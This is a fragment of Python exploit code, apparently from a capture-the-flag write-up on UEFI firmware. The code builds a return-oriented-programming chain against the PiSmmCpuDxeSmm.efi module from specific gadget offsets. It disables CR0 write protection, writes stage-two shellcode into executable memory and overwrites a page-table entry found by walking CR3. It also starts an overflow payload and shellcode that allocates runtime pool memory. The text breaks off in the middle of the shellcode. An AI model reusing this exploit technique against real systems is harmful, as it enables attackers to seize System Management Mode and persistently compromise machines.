 ```python

info(f"PiSmmCpuDxeSmm.efi base address: {hex(efi_base)}")

new_cr0_value = 0x80010033 & ~(1 << 16)
new_0x44440000_PTE = 0x8000000044440067
rop_pop_rsp_ret = efi_base + 0x1811
rop_ret_0x6d = efi_base + 0xfc8a
rop_mov_cr0_rax_ret = efi_base + 0x10a5f
rop_pop_rax_rbx_ret = efi_base + 0x1088c
rop_mov_qptr_rbx_rax_pop_rbx_ret = efi_base + 0x3b8f

s2_shellcode = asm(f"""
mov rbx, 0xfffff000
mov rax, cr3

mov rax, qword ptr [rax + 0*8]
and rax, rbx

mov rax, qword ptr [rax + 1*8]
and rax, rbx

mov rax, qword ptr [rax + 34*8]
and rax, rbx

add rax, {64*8}
mov rbx, {new_0x44440000_PTE}
mov qword ptr [rax], rbx

mov rax, {addr_region_4}
mov rbx, qword ptr [rax]

ud2
""")

rop = [
    # update cr0.WP
    rop_pop_rax_rbx_ret,
    new_cr0_value, 0xdeadbeef,
    rop_mov_cr0_rax_ret,
]

for i in range(0, len(s2_shellcode), 8):
    code = int(s2_shellcode[i:i+8][::-1].hex(), 16)
    rop.append(rop_pop_rax_rbx_ret)
    rop.append(code)
    rop.append(efi_base + 0x1000 + i)
    rop.append(rop_mov_qptr_rbx_rax_pop_rbx_ret)
    rop.append(0xdeadbeef)

rop.append(efi_base + 0x1000)
rop_chain_str = ','.join(map(hex, rop))
payload = b'A\x01' * 200 + p64(rop_ret_0x6d)

sc = asm(
f"""
/* Get AllocPool() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_AllocPool}]

/* AllocPool(enum_EfiRuntimeServicesData, size, buffer) */
mov rcx, {enum_EfiRuntimeServicesData}
mov rdx, {len(payload) + 0x18}
```